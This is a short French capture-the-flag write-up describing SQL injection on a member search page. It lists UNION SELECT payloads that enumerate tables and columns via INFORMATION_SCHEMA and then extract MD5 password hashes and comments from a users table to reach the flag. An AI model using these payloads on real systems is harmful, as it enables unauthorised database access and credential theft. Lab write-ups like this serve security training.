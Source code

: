 Sur la page de recherche de membre, l'input n'est pas protégé contre les injections SQL.
La commande `1 UNION SELECT table_name, table_schema FROM INFORMATION_SCHEMA.COLUMNS --` permet de récupérer la liste des tables ainsi que la DB correspondante.
Une seconde requete `1 UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS  --` liste toutes les colonnes.
A partir de ces informations, nous allons requêter dans la db Member_Sql_Injection, la table users : `1 UNION SELECT countersign, Commentaire FROM Member_Sql_Injection.users --`
Nous obtenons des mots de passe hasher en MD5, et des commentaires, dont l'un donne des instructions pour obtenir le flag.
